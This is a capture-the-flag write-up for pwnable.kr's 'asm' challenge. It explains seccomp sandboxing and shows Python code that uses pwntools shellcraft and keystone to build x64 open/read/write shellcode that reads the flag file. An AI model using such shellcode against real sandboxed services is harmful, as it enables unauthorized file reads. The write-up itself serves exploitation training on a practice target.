 # Asm
In this challenge we need to work with some shellcode.
In particular we have to send `open()`, `read()` and `write()` functions to `pwnable.kr` on port 9026.
```
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: 
```
SECCOMP stands for secure computing mode. It's a simple sandboxing tool in the Linux kernel, available since Linux version 2.6.12. When enabling seccomp, the process enters a "secure mode" where a very small number of system calls are available (exit(), read(), write(), sigreturn()) (if you want to learn more about SECCOMP sanbox click [here](https://wiki.mozilla.org/Security/Sandbox/Seccomp)).
## Solution
I searched on the internet and found a pwntools module called **shellcraft**, it allow us to generate assembly code in a very easy way.
Reading its documentation I found a way to generate the assembly code of `open()`, `read()` and `write`.
```
# Shellcode for the open() function
open_shell_code = shellcraft.amd64.open('./this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong', 0).replace("SYS_open", "2")

# Shellcode for the read() function
read_shell_code = shellcraft.amd64.read('rax', 'rsp', 30)

# Shellcode for the write() function
write_shell_code = shellcraft.amd64.write(1, 'rsp', 30).replace("SYS_write", "1")
```

I replaced SYS_open and SYS_write with 2 and 1 respectively because they were throwing errors with the keystone module.

[Keystone](https://www.keystone-engine.org/) is a lightweight multi-platform, multi-architecture assembler framework. It offers some unparalleled features:
* Multi-architecture, with support for Arm, Arm64 (AArch64/Armv8), Ethereum Virtual Machine, Hexagon, Mips, PowerPC, Sparc, SystemZ & X86 (include 16/32/64bit).
* Clean/simple/lightweight/intuitive architecture-neutral API.
* mplemented in C/C++ languages, with bindings for Java, Masm, C#, PowerShell, Perl, Python, NodeJS, Ruby, Go, Rust, Haskell, VB6 & OCaml available.
* Native support for Windows & *nix (with Mac OSX, Linux, *BSD & Solaris confirmed).
* Thread-safe by design.
* Open source - with a dual license

I used keystone to convert the assembly code into a byte array:
```
assembly = open_shell_code + read_shell_code + write_shell_code

try:
    ks = Ks(KS_ARCH_X86, KS_MODE_64)
    encoded_instructions, _num_of_instruction = ks.asm(assembly)
except KsError as e:
    print(f"[-] {e}")
    print("[-] Bye")
    quit(1)

shellcode = b""
for i in encoded_instructions:
    shellcode += i.to_bytes(length=1, byteorder='little')
```
Running this script we will be able to read the flag.